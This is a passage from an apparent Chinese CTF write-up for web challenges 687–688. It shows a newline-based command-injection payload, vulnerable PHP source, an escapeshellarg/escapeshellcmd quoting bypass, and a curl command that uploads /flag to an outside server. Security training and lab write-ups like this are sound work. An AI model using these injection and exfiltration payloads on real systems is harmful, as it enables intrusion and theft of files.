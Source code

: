 把一些符号过滤了

但是需要同时按顺序执行多个命令，我们利用`%0a`来绕过管道符

```
ip=1%0amore /flaaag%0abash
```

##  web688

考点：实现curl的命令外带数据

`curl http://ip:port/ -F file=@/flag`

可以将本地的flag文件外带到自己的服务器上，从而拿到flag的内容



```php
<?php
highlight_file(__FILE__);
error_reporting(0);

//flag in /flag
$url = $_GET['url'];
$urlInfo = parse_url($url);
if(!("http" === strtolower($urlInfo["scheme"]) || "https"===strtolower($urlInfo["scheme"]))){
    die( "scheme error!");
 }
$url=escapeshellarg($url);
$url=escapeshellcmd($url);
system("curl ".$url);
```

代码要求：需要ip为http或者https,就是curl外带数据的考点

需要处理`escapeshellarg`和`escapeshellcmd`

```php
<?php 
$a = "1' xxx";
$a = escapeshellarg($a);
$a = escapeshellcmd($a);
echo $a;
```

最终输出的内容为`'1'\\'' xxx\'`
具体内容可分为`'1'` `\\` `''` `xxx` `\'`五部分
两个反斜杠在一起就不再起到转义的作用了，我们可以逃出单引号。但是最后还多了个单引号，所以再补充一个，而其中的xxx就是我们要使用的内容

所以payload：

```
http://127.0.0.1:4567/' -F file=@/flag'
```

## web689
